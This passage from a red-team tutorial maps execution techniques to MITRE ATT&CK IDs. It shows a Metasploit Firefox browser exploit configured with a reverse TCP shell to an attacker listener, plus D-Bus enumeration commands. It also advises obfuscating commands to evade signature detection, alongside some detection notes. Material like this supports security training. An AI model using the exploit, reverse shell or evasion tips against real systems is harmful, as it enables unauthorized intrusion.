 **Specific ATT&CK Mapping**:
- Shell-based reverse connections directly implement T1059.004
- Command interpreters provide powerful execution capabilities

**Operational Considerations**:
- Shell script execution may be monitored by EDR solutions
- Use encoding or obfuscation to avoid simple signature detection
- Consider environment variables and path issues when crafting commands

### Exploitation for Client Execution (T1203)

This involves exploiting client applications to execute code.

**Metasploit Browser Exploits**:
```bash
# Set up a browser exploit
use exploit/multi/browser/firefox_proto_crmfrequest
set payload firefox/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

**Specific ATT&CK Mapping**:
- Metasploit browser modules directly implement T1203
- Client-side execution often bypasses perimeter defenses

**Detection Considerations**:
- Browser exploit attempts may be detected by endpoint protection
- Successful exploitation often causes unusual process behavior
- Network traffic signatures may identify exploit attempts

### Inter-Process Communication (T1559)

This involves using inter-process communication mechanisms to execute code.

**D-Bus Exploitation**:
```bash
# List available D-Bus services
dbus-send --system --dest=org.freedesktop.DBus --type=method_call --print-reply /org/freedesktop/DBus org.freedesktop.DBus.ListNames

# Execute command via D-Bus (example)
dbus-send --system --dest=org.freedesktop.NetworkManager --type=method_call --print-reply /org/freedesktop/NetworkManager org.freedesktop.DBus.Properties.Get string:org.freedesktop.NetworkManager string:Version
```

**Specific ATT&CK Mapping**:
- D-Bus manipulation maps to T1559
- IPC mechanisms provide alternative execution paths

**Red Team Considerations**:
- IPC mechanisms are often less monitored than direct command execution
- System services may offer privileged execution through IPC
- Document IPC paths discovered during operations
